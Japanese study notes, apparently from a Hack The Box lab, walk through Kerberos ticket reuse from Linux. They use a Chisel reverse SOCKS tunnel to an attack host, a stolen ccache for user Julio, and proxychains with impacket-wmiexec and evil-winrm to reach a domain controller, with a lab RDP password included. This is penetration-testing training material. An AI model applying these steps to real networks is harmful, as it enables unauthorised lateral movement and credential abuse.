 Kali Linuxに[Chisel](https://github.com/jpillora/chisel)をダウンロードする
```shell-session
snowyowl644@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
snowyowl644@htb[/htb]$ gzip -d chisel_1.7.7_linux_amd64.gz
snowyowl644@htb[/htb]$ mv chisel_* chisel && chmod +x ./chisel
snowyowl644@htb[/htb]$ sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```

RDP経由でMS01に接続し、[Chisel](https://github.com/jpillora/chisel)を実行する
```shell-session
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

クライアントIPは攻撃ホスト(Kali Linux)のIP
```cmd
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```

Kali Linuxから、Julioのccacheファイルを`LINUX01`から転送し、ccacheファイルのパスに対応する値で環境変数`KRB5CCNAME`に作成する
```shell-session
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

##### Impacketを使用する
- proxychains必要
- Kerberos認証を行うためには、`-k`を指定する
```shell-session
proxychains impacket-wmiexec dc01 -k
```

##### Evil-WinRM を使用する
- Evil-WinRMをKerberos 認証で使用するには、Kerberos のネットワーク認証用パッケージをインストールする必要がある
- Debian 系の Linux (Parrot, Kali など) では、このパッケージは `krb5-user`という名前
```shell-session
sudo apt-get install krb5-user -y
```
- Kerberos レルム (Realm) を入力するプロンプト が表示されるので「ドメイン名」と「KDC」を入力する
- 設定ファイルはここ
```shell-session
cat /etc/krb5.conf
```

winRMの使用
```shell-session
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```


##### Miscellaneous
- Windows で `ccache file`、または Linux マシンで `kirbi file`を使用する場合は、[impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) を使用して変換できる
- ccacheファイルをkirbiファイルに変換する
```shell-session
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
